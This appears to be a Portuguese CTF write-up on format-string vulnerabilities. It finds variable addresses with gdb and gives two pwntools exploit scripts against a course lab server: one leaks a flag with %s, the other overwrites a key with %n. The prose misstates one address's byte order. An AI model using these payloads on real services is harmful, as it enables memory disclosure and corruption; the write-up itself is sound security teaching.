






### CTF Semana 7 (Format Strings)

## Primeira parte

Depois de executar o programa checksec, obtivemos o seguinte output:




Para descobrir o endereço da função, usamos o debugger gdb:
```shell
$ gdb program
$ p &flag  
```



O resultado foi o endereço de retorno "0x804c060", que é "\x60\xc0\x04\x08" em formato de string.

Trocamos o código que estava no ficheiro de python por o seguinte:

```py
from pwn import *
    
p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```




## Segunda parte

Depois de executar o programa checksec, obtivemos o seguinte output:



Para descobrir o endereço da função, usamos o debugger gdb:
```shell
$ gdb program
$ p &key  
```



o resultado desejado seja o endereço "0x804b324", que é "\x24\xb3\x04\x80" em hexadecimal. Para escrever o valor 48879 nesse endereço, você precisará ajustar a string de entrada. Após o endereço desejado (4 bytes), você precisará escrever exatamente 48879 - 4 = 48875 bytes antes do '%n'. Dado que o buffer de entrada tem no máximo 32 bytes disponíveis, você pode recorrer à expressão compacta de leitura do printf %.Nx, com N = 48875.

Exploit criado:

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")
p.sendline(b"@@@@\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```


